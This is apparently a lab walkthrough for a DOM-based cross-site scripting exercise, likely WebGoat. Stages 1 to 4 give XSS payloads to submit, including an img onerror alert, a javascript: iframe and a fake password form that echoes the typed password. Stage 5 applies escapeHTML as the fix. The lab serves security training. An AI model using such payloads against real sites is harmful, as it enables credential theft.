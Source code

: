 # LAB_DOM-Based_cross-site_scripting
## STAGE 1
![](_v_images/_1524707693_10761.png)

* Enter "``<IMG SRC="images/logos/owasp.jpg"/>``" and submit the solution.
## STAGE 2
![](_v_images/_1524707764_13125.png)

*  Enter "``<img src=x onerror=;;alert('XSS') />``" and submit the solution.
## STAGE 3
![](_v_images/_1524707874_18154.png)

* Enter "``<IFRAME SRC="javascript:alert('XSS');"></IFRAME>``" and submit the solution.
## STAGE 4
![](_v_images/_1524708069_20706.png)

*  Enter "``Please enter your password:<BR><input type = "password" name="pass"/><button onClick="javascript:alert('I have your password: ' + pass.value);">Submit</button><BR><BR><BR><BR><BR><BR><BR><BR> <BR><BR><BR><BR><BR><BR><BR><BR>``" and submit the solution.
## STAGE 5
![](_v_images/_1524726932_17994.png)
* Modify ``DOMXSS.js``, add ``escapeHTML()`` in ``name``, ie ``escapeHTML(name)``, then save it.
![](_v_images/_1524726820_7375.png)


